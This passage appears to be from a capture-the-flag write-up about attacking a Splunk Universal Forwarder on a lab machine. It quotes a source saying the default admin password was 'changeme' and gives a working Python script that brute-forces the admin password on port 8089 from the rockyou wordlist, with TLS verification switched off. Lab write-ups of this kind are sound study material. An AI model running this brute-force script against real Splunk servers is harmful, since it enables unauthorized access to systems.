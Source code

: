 Needed to use https. After accepting the security warnings about the self-signed certificates was led to a Splunk Atom Feed.  Says Splunk build: 8.0.5

![](../../.gitbook/assets/2-splunkd-login.png)

I tried clicking on the services link, but was prompted to enter credentials

[https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/)

> Universal Forwarder is accessible on each host at [https://host:8089](https://host:8089). Accessing any of the protected API calls, such as /service/ pops up a Basic authentication box. The username is always admin, and the password default used to be changeme until 2016 when Splunk required any new installations to set a password of 8 characters or higher.

Crafting a python password brute force tool

* [https://requests.readthedocs.io/en/master/user/advanced/\#ssl-cert-verification](https://requests.readthedocs.io/en/master/user/advanced/#ssl-cert-verification)
* [https://stackoverflow.com/questions/15445981/how-do-i-disable-the-security-certificate-check-in-python-requests](https://stackoverflow.com/questions/15445981/how-do-i-disable-the-security-certificate-check-in-python-requests)

```python
import requests
from urllib3.exceptions import InsecureRequestWarning

headers = {
'Host': '10.10.10.209:8089',
'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
'Accept-Language': 'en-US,en;q=0.5',
'Accept-Encoding': 'gzip, deflate',
'Connection': 'close',
'Referer': 'https://10.10.10.209:8089/',
'Upgrade-Insecure-Requests': '1',
'DNT': '1',
'Sec-GPC': '1'
}

auth = "Authorization: Basic admin:changeme"

# Suppress only the single warning from urllib3 needed.
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

print("Starting password brute force...\n")

with open("/home/zweilos/rockyou_utf8.txt", "r") as rockyou:
    for password in rockyou:
            r = requests.get('https://10.10.10.209:8089/services', auth=('admin', password), headers = headers, verify = False)
            if r.status_code == 200:
                print(f"The password is: {password}\n")
                break
            else:
                continue
```